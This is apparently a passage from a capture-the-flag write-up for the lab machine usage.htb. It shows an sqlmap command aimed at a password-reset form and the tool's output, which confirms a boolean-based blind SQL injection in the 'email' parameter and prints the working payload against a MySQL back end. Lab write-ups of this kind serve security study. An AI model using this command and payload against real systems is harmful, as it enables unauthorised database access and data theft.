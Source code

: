 ```bash
sqlmap -r reset.req -p email --level 5 --risk 3 --technique=B --batch
```

```
        ___
       __H__                                                                                                                                                                                                                                                                      
 ___ ___[.]_____ ___ ___  {1.9.3#stable}                                                                                                                                                                                                                                          
|_ -| . [)]     | .'| . |                                                                                                                                                                                                                                                         
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:25:09 /2025-04-27/

[10:25:09] [INFO] parsing HTTP request from 'reset.req'
[10:25:09] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/index.php/forget-password'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
[10:25:10] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[10:25:10] [WARNING] heuristic (basic) test shows that POST parameter 'email' might not be injectable
[10:25:10] [INFO] testing for SQL injection on POST parameter 'email'
[10:25:10] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:25:35] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[10:25:55] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[10:26:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[10:26:19] [INFO] POST parameter 'email' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable 
[10:26:21] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[10:26:21] [INFO] checking if the injection point on POST parameter 'email' is a false positive
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 338 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=lMY8oaxBR58STgl60nYUgq4YF7YrknKTzDT6BQoB&email=test@test.htb' AND 8351=(SELECT (CASE WHEN (8351=8351) THEN 8351 ELSE (SELECT 4051 UNION SELECT 2471) END))-- hspf
---
[10:26:26] [INFO] testing MySQL
[10:26:26] [INFO] confirming MySQL
[10:26:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[10:26:27] [WARNING] HTTP error codes detected during run:
```